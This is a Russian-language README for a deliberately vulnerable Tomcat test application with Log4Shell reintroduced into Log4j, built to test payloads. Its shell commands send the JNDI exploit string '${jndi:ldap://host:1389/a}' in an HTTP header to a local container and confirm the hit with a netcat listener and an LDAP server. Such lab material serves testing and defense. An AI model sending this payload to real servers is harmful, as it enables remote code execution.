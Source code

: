 # log4j-poc

Тестовое веб-приложение на основе Tomcat 10.1 (OpenJDK 21),
включающее уязвимую версию библиотеки Log4j 2.x версии 2.25
с внесенной уязвимостью Log4Shell. Уязвимое приложение
позволяет эксплуатацию в HTTP-заголовках, отправляемых в лог
Tomcat (/usr/local/tomcat/logs/catalina.out). Приложение
предназначено для целей тестирования и проверки полезных
нагрузок.

# Сборка и запуск

Для сборки и запуска необходима POSIX-совместимая операционная
система, включающая следующие компоненты:

- git
- docker
- curl

# сборка

```
git clone https://github.com/sercher/log4j-poc.git
cd log4j-poc
docker build -t log4j-poc:latest .
```

# запуск

```
docker run -d -p 8080:8080 --add-host=host:host-gateway log4j-poc
```

Запущенное приложение доступно по адресу

```
localhost:8080/myapp
```

# Проверка lookup без добавления полезной нагрузки

```
(
  nc -q1 -l 1389 &>/dev/null && echo '[!] VULNERABLE TO LOG4SHELL' &
  pid=$!
  curl -H 'Header-poc: ${jndi:ldap://host:1389/a}' 'http://localhost:8080/myapp/'
  sleep 1
  kill -9 $pid 2>/dev/null
)
```

Альтернативно можно использовать готовый собранный образ

```
docker pull sercher78/sercher:log4j-poc-small
```

Тогда запуск приложения будет осуществляться командой

```
docker run -d -p 8080:8080 --add-host=host:host-gateway sercher78/sercher:log4j-poc-small
```

# Проверка сериализации с добавлением полезной нагрузки

- maven
- сборка LDAP сервера (см. [ldap-server](https://github.com/sercher/ldap-server))

```
git clone https://github.com/sercher/ldap-server.git
cd ldap-server
mvn clean compile assembly:single
```

- запуск LDAP сервера

```
java -cp target/ldap-server-1.0-SNAPSHOT-jar-with-dependencies.jar LdapServer &
```

- проверка сериализации

```
(
  curl -H 'Header-poc: ${jndi:ldap://host:1389/a}' 'http://localhost:8080/myapp/' &>/dev/null && \
  docker exec -it $(docker ps -lq) tail /usr/local/tomcat/logs/application.log | grep OBJECT-DESERIALIZED && echo '[!] HIGHLY VULNERABLE TO LOG4SHELL'
)
```

- остановка LDAP сервера

```
fg
нажать <CTRL-C>
```

Отчет об уязвимостях docker hub:
- [sercher78/sercher:log4j-poc-small](https://hub.docker.com/repository/docker/sercher78/sercher/tags/log4j-poc-small/sha256-a421b26712f4ba1989edcd9d7603dab011a6613b485f288d9f563adbf39742d0)

Обнаруженные уязвимости целиком находятся во внутреннем слое (tomcat:10)